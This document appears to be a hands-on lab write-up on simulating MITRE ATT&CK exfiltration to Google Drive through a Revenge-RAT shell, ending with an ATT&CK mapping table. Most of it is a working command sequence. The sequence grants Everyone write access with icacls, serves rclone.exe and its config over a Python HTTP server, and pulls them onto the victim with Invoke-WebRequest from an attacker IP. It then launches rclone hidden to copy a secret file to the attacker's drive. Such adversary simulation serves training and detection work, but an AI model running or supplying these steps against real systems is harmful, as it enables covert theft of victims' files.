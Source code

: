 ## MITRE ATT\&CK Exfiltration Simulation via Google Drive using **rclone**

We can exfiltrate data using RAT's built-in download functionality already, it will then save into **E:\Hacking\Tools\Revenge-RAT v0.3\Users\User_name\downloads**. But to simulate it through powershall I deep dive into this. I tried many ways, I tried to build a http server using flask, and then through port forwarding, I tried to send files there. But as the RAT doesn't have write access thats why I didn't manage to do it then. Then I tried to do it directly via Google Drive, but I faced typos there. Then I tried rclone, to do so, it is better to use your own drive. And for this,s I followed **https://console.cloud.google.com/auth/clients?inv=1&invt=AbxtVQ&project=theta-totem-446705-j3** this link, to get the client id and client secret, then I use it later while setting rclone. Here are the following steps to do exfiltration:

### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with Google Drive**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `myStorage`
3. Choose storage type: `drive` (20 for Google Drive)
4. Follow the prompts to authenticate via browser (use your Google account).
5. At the end, type `y` to confirm, then `q` to quit.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From the attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\ProgramData\rclone.exe"
# Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\ProgramData\rclone.conf"
```

```powershell
Invoke-WebRequest -Uri "http://192.168.113.226:8000/rclone.exe" -OutFile "C:\NewRAT\rclone.exe"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
```

Notes:

* `myStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check Google Drive**

Your file (e.g., `secret.txt`) should now appear in the root of your Google Drive. You need to wait some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to Google Drive          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |
